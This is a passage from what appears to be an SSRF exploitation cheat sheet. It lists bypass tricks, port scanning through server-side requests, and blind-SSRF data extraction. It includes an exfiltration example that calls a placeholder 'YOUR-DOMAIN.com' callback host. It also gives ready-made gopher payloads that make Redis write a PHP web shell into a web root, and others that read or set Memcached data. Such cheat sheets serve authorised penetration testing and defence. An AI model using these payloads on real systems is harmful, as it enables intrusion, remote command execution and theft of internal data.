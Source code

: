     - **Redirect status code variation**
      - Try different redirect status codes (301, 302, 303, 307, 308)
      - Some applications may handle different codes in various ways
    
    - **Using meta refresh redirects**
      - If the application returns HTML, try meta refresh redirects
      - Example: `<meta http-equiv="refresh" content="0;url=http://internal-service/admin">`

  - **Bypassing content type validation**
    
    - **Content type spoofing**
      - Some SSRF defenses only check if the response is "safe" (e.g., image type)
      - Set up a server that returns valid image headers but contains sensitive data
      - Example: Return a PNG file with IDAT chunks containing stolen data
    
    - **Exploiting timeouts**
      - If validation includes content type checking with timeouts
      - Make your malicious server respond slowly, potentially bypassing full validation

- **Advanced SSRF exploitation techniques**

  - **Port scanning via SSRF**
    - Use timing differences to determine open ports
    - Example: `http://127.0.0.1:80/` vs `http://127.0.0.1:22/`
    - Open ports typically respond faster than closed ones
    - Script to test multiple ports and record response times
    
  - **Extracting responses from blind SSRF**
    - **Using out-of-band channels**
      - DNS exfiltration
      - Example: `http://internal-service/sensitive-data?callback=http://YOUR-DOMAIN.com/`
      - The callback parameter may include the response in the URL
    - **Error-based extraction**
      - If errors include response snippets
      - Craft requests that cause errors containing the data you want
    - **Time-based extraction**
      - Use sleep functions or slow endpoints to extract data bit by bit
      - Example: `http://internal-api/endpoint?param=test${if:substr(secret,1,1)=a:sleep(10)}`
    
  - **Exploiting specific services via SSRF**
    
    - **Redis exploitation**
      - Using GOPHER protocol: `gopher://127.0.0.1:6379/_SET%20ssrf_test%20%22hello%22`
      - Common commands:
        ```
        gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/var/www/html
        gopher://127.0.0.1:6379/_CONFIG%20SET%20dbfilename%20shell.php
        gopher://127.0.0.1:6379/_SET%20payload%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22
        gopher://127.0.0.1:6379/_SAVE
        ```
    
    - **Memcached exploitation**
      - Read data: `gopher://127.0.0.1:11211/_%0astats%0astats%20items%0astats%20cachedump%201%20100%0aget%20key_name%0aquit`
      - Set data: `gopher://127.0.0.1:11211/_%0aset%20ssrf_test%200%2060%205%0aabcde%0aquit`
    